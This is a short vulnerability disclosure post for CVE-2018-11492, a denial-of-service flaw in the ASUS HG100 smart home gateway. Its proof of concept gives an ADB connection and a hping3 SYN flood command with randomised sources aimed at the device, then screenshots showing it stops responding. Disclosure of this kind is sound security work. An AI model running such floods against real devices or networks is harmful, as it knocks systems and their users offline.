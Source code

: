```yaml
---
layout: post
title:  "CVE-2018-11492"
author: Mars Cheng
tags: CVE
---
```


## **<center> ASUS HG100 exists DoS vulnerability </center>**
#### Description:ASUS HG100 devices allow denial of service via an IPv4 packet flood.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>



## <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Connect to ASUS Gateway HG100 with ADB

```
adb connect 192.168.0.108
adb shell
```
![](https://i.imgur.com/lVNHkeH.png)



### 2.Execute IP v4 flood attack
* Use Hping3 tool to execute DoS attack
```
hping3 -V -c 1000000 -d 120 -S -w 64 --flood --rand-source 192.168.0.108
```
* Confirm packets status
<div style="text-align: center">
<img src="https://i.imgur.com/cGHgMYi.png"/>
</div>


### 3.Confirm device status

* Unable to connect to ADB, and DoS attack success.
<div style="text-align: center">
<img src="https://i.imgur.com/CUnM7mQ.png"/>
</div>



### **<center> Notice: ASUS can't fix this vulnerability r</center>**

